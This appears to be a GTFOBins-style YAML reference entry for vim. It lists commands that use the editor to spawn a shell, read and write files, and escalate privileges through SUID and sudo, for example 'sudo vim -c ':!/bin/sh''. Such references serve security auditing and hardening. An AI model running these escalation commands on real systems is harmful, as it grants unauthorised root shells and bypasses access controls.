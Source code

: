 ```yaml
---
name: vim
functions:
  shell:
    - code: vim -c ':!/bin/sh'
    - code: |
        vim
        :set shell=/bin/sh
        :shell
    - description: This requires that `vim` is compiled with Python support.
      code: vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  file-write:
    - code: |
        vim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vim file_to_read
  suid:
    - code: ./vim -c ':!/bin/sh -p'
    - description: This requires that `vim` is compiled with Python support.
      code: ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - code: sudo vim -c ':!/bin/sh'
    - description: This requires that `vim` is compiled with Python support.
      code: sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
---
```

